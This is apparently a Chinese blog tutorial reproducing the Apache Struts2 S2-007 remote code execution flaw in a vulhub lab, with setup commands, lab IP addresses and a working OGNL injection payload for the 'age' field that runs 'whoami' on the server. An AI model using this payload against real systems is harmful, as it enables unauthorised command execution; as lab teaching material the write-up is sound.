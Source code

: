 #  S2-007远程代码执行漏洞   
原创 Hacker  0xh4ck3r   2025-02-16 09:22  
  
## S2-007远程代码执行漏洞  
### 漏洞成因  
  
age参数只能是整数，而非整数会导致错误，struct会将用户的输入当作ongl表达式执行，从而导致了该漏洞  
### 漏洞利用  
#### 环境准备  
  
<table><thead><tr><th valign="top" style="color: rgb(0, 0, 0);font-size: 16px;line-height: 1.5em;letter-spacing: 0em;text-align: left;font-weight: bold;background-attachment: scroll;background-clip: border-box;background-color: rgb(240, 240, 240);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;"><section><span leaf="">名称</span></section></th><th valign="top" style="color: rgb(0, 0, 0);font-size: 16px;line-height: 1.5em;letter-spacing: 0em;text-align: left;font-weight: bold;background-attachment: scroll;background-clip: border-box;background-color: rgb(240, 240, 240);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;"><section><span leaf="">IP</span></section></th></tr></thead><tbody><tr style="color: rgb(0, 0, 0);background-attachment: scroll;background-clip: border-box;background-color: rgb(255, 255, 255);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;"><td valign="top" style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">攻击机</span></section></td><td valign="top" style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">192.168.159.135</span></section></td></tr><tr style="color: rgb(0, 0, 0);background-attachment: scroll;background-clip: border-box;background-color: rgb(248, 248, 248);background-image: none;background-origin: padding-box;background-position-x: 0%;background-position-y: 0%;background-repeat: no-repeat;background-size: auto;width: auto;height: auto;"><td valign="top" style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">靶机</span></section></td><td valign="top" style="padding-top: 5px;padding-right: 10px;padding-bottom: 5px;padding-left: 10px;min-width: 85px;border-top-style: solid;border-bottom-style: solid;border-left-style: solid;border-right-style: solid;border-top-width: 1px;border-bottom-width: 1px;border-left-width: 1px;border-right-width: 1px;border-top-color: rgba(204, 204, 204, 0.4);border-bottom-color: rgba(204, 204, 204, 0.4);border-left-color: rgba(204, 204, 204, 0.4);border-right-color: rgba(204, 204, 204, 0.4);border-top-left-radius: 0px;border-top-right-radius: 0px;border-bottom-right-radius: 0px;border-bottom-left-radius: 0px;"><section><span leaf="">192.168.159.129</span></section></td></tr></tbody></table>  
  
首先输入以下命令进入vulhub里启动靶场，然后在攻击机里访问http://192.168.159.129:8080即可  
```
cd vulhub-master/struts2/s2-007
docker-compose up -d

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7B71peL7FQRaEWrsYcXbc01E0MoDYX0oQGSqrW5Vq4xMoicK7JNjQLGCS337ZW8xr853BbfrgmTrsVb7fKqfW3A/640?wx_fmt=png&from=appmsg "")  
  
image-20220803141735835  
  
看到如上界面便是启动成功了。  
#### 漏洞复现  
  
用户名和邮箱随意输入，age输入以下内容：  
```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())) + '

```  
  
可以看到如下返回结果，证明该漏洞利用成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7B71peL7FQRaEWrsYcXbc01E0MoDYX0oWKl9HHT4rGKPf0kUpWMic7YRPcWRTfjVjlcsp05c2ceVg841YOFpbLg/640?wx_fmt=png&from=appmsg "")  
  
image-20220803142224600  
  
  
